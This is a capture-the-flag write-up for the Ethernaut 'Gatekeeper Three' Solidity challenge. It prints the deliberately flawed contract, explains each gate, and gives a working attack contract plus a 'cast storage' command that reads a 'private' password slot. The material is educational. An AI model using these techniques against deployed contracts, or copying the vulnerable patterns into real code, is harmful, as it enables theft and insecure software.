 # **Gatekeeper Three**

> Cope with gates and become an entrant.
>
> ##### Things that might help:
>
> - Recall return values of low-level functions.
> - Be attentive with semantic.
> - Refresh how storage works in Ethereum.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
  GatekeeperThree public target;
  address public trick;
  uint private password = block.timestamp;

  constructor (address payable _target) {
    target = GatekeeperThree(_target);
  }
    
  function checkPassword(uint _password) public returns (bool) {
    if (_password == password) {
      return true;
    }
    password = block.timestamp;
    return false;
  }
    
  function trickInit() public {
    trick = address(this);
  }
    
  function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
      target.getAllowance(password);
    }
  }
}

contract GatekeeperThree {
  address public owner;
  address public entrant;
  bool public allow_enterance = false;
  SimpleTrick public trick;

  function construct0r() public {
      owner = msg.sender;
  }

  modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
  }

  modifier gateTwo() {
    require(allow_enterance == true);
    _;
  }

  modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }

  function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) {
        allow_enterance = true;
    }
  }

  function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
  }

  function enter() public gateOne gateTwo gateThree returns (bool entered) {
    entrant = tx.origin;
    return true;
  }

  receive () external payable {}
}

```



## 攻击思路

有三面门需要破壁。

1. 需要使用攻击合约调用`GatekeeperThree`合约，并且这个攻击合约地址还要是`GatekeeperThree`合约的`owner`。

   - `GatekeeperThree`合约在设置`owner`时，将构造函数`constructor`错误地写为了`construct0r`。所以攻击合约需要调用一次`construct0r`函数，成为`owner`。

2. 需要将`GatekeeperThree`合约的`allow_enterance`变量从`false`转为`true`。

   - `allow_enterance`变量只能在`getAllowance`函数中调用`trick`合约的`checkPassword`函数成功返回`true`时，才能修改为`true`。而`trick`合约的`checkPassword`函数需要判断传入的`_password`是否与合约存储的私有变量`password`相同。可链上没有私有数据。

     通过读取`trick`合约内存插槽`slot2`中存储的值，即可知道`password`。使用`cast storage`命令行工具查询。

     ```shell
     cast storage 0x4598a3C70236502617773CED963E5D43d9934091 2 --rpc-url https://rpc.ankr.com/eth_goerli
     ```

3. 需要给`GatekeeperThree`合约转大于`0.001 ether`，并且我们的攻击合约在接收`ETH`时需要失败。

   - 在调用`GatekeeperThree`合约的同时转移大于`0.001 ether`，并且在攻击合约的`receive `函数中无脑revert就好。



## 攻击合约

```solidity
contract Attack {
    function attack(address payable gatekeeperThree, uint256 _password)
        public
        payable
    {
        // gateOne
        GatekeeperThree(gatekeeperThree).construct0r();

        // gateTwo
        GatekeeperThree(gatekeeperThree).getAllowance(_password);

        // gateThree
        payable(gatekeeperThree).call{value: 0.0011 ether}("");

        // enter
        GatekeeperThree(gatekeeperThree).enter();
    }

    receive() external payable {
        revert();
    }
}
```



合约处于`constructor函数`中时，无法接收ETH转移。




Nice job! For more information read this: https://web3js.readthedocs.io/en/v1.2.9/web3-eth.html?highlight=getStorageAt#getstorageat and this https://medium.com/loom-network/ethereum-solidity-memory-vs-storage-how-to-initialize-an-array-inside-a-struct-184baf6aa2eb .

